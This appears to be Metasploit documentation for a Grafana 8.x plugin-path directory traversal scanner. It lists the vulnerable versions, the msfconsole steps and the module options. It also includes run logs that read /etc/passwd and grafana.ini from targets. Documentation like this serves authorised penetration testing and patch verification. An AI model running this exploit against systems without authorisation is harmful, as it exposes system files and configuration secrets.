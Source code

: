 ## Vulnerable Application

Grafana versions 8.0.0-beta1 through 8.3.0 prior to 8.0.7, 8.1.8, 8.2.7, or 8.3.1 are vulnerable to directory traversal
through the plugin URL.  A valid plugin ID is required, but many are installed by default.

### Vulnerable Docker Image

```docker run -p 3000:3000 --name grafana bitnami/grafana:8.3.0```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/grafana_plugin_traversal`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should retrieve a file.

## Options

### FILEPATH

The path to the file to read.  Defaults to `/etc/grafana/grafana.ini`

### DEPTH

The depth of `../` needed to get to the file system root.  Defaults to `13`

### PLUGINS_FILE

The plugin file to use.  Defaults to `data/wordlists/grafana_plugins.txt`

## Scenarios

### Grafana 8.3.0 on Ubuntu 20.04

```
[*] Processing grafana.rb for ERB directives.
resource (grafana.rb)> use auxiliary/scanner/http/grafana_plugin_traversal
resource (grafana.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (grafana.rb)> set verbose true
verbose => true
resource (grafana.rb)> set filepath /etc/passwd
filepath => /etc/passwd
resource (grafana.rb)> run
[+] Detected vulnerable Grafina: 8.3.0
[*] Attempting plugin: alertlist
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:112:117::/usr/share/grafana:/bin/false

[+] 1.1.1.1:3000 - File saved in: /home/metasploit/.msf4/loot/20211215162817_default_1.1.1.1_grafana.loot_096504.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Grafana 8.3.0 on Docker

Using `docker run -p 3000:3000 --name grafana bitnami/grafana:8.3.0`

The `grafana.ini` file is located in `/opt/bitnami/grafana/conf/grafana.ini`

```
[*] Processing grafana.rb for ERB directives.
resource (grafana.rb)> use auxiliary/scanner/http/grafana_plugin_traversal
resource (grafana.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (grafana.rb)> set verbose true
verbose => true
resource (grafana.rb)> set filepath /opt/bitnami/grafana/conf/grafana.ini
filepath => /opt/bitnami/grafana/conf/grafana.ini
resource (grafana.rb)> run
[+] Detected vulnerable Grafina: 8.3.0
[*] 127.0.0.1 - Progress   0/40 (0.0%)
[*] Attempting plugin: alertlist
[+] alertlist was found and exploited successfully
[+] ##################### Grafana Configuration Example #####################
#
# Everything has defaults so you only need to uncomment things you want to
# change

# possible values : production, development
;app_mode = production

# instance name, defaults to HOSTNAME environment variable value or hostname if HOSTNAME var is empty
;instance_name = ${HOSTNAME}

```
...snip...
```

# Experimental feature
;use_browser_locale = false

# Default timezone for user preferences. Options are 'browser' for the browser local timezone or a timezone name from IANA Time Zone database, e.g. 'UTC' or 'Europe/Amsterdam' etc.
;default_timezone = browser

[expressions]
# Enable or disable the expressions functionality.
;enabled = true

[geomap]
# Set the JSON configuration for the default basemap
;default_baselayer_config = `{
;  "type": "xyz",
;  "config": {
;    "attribution": "Open street map",
;    "url": "https://tile.openstreetmap.org/{z}/{x}/{y}.png"
;  }
;}`

# Enable or disable loading other base map layers
;enable_custom_baselayers = true

[+]127.0.0.1:3000 - File saved in: /home/metasploit/.msf4/loot/20211219160839_default_127.0.0.1_grafana.loot_370996.ini
```
